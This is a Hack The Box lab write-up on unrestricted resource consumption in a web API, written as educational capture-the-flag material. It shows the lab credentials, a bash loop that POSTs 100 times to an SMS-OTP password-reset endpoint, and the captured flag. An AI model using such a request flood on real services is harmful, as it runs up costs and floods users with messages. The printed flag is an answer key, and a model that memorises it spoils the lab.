




# Hack The Box - Unrestricted Resource Consumption | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web API Attacks &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.82:30105` &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

In this section of Web API attacks we have been made known there is an unrestricted resource consumption vulnerability, which we must exploit to get our root flag.

Credentials given: `htbpentester8@pentestercompany.com:HTBPentester8`

---

## Assessment Overview



---

## What I Learned

- What unrestricted resource consumption is, and why an endpoint with no rate limiting is a real vulnerability.
- Reading an API's own documentation and notes to spot where an expensive operation can be abused.
- How to authorise myself against a Web API using a JWT token from the sign-in endpoint.
- Using a simple bash loop with curl to send a request over and over until the target gives up its data.
- Why endpoints that cost money per call (like sending an SMS) need strict rate limiting to stay safe.

---

## Signing In and Getting the JWT

We can start by visiting our webpage and entering our credentials in the customer sign-in area, and then authorising ourselves with the JWT token.

```json
{
  "Email": "htbpentester8@pentestercompany.com",
  "Password": "HTBPentester8"
}
```



*Figure 1 - Signing in through the Swagger UI to obtain the JWT token.*

---

## Reading the sms-otp Endpoint Note

When we go to our sms-otp endpoint we see a note that says the following.



*Figure 2 - The sms-otp endpoint warns that the SMS provider charges a significant amount per message, and there is no role required to call it.*

---

## Exploiting the Unrestricted Resource Consumption

So I figured our exploit would be to send as many as we can with a bash script.

```bash
──╼ [★]$ for i in $(seq 1 100); do
  curl -X 'POST' \
    'http://154.57.164.82:30105/api/v1/authentication/customers/passwords/resets/sms-otps' \
    -H 'accept: application/json' \
    -H 'Content-Type: application/json' \
    -d '{
      "Email": "htbpentester8@pentestercompany.com"
    }'
done
```

And we get our flag once we do this.



*Figure 3 - After enough requests the endpoint returns the flag in the response body.*

> Retrieve the root flag by abusing the unrestricted resource consumption on the sms-otp endpoint.

**Answer:** `HTB{01de742d8cd942ad682aeea9ce3c5428}`
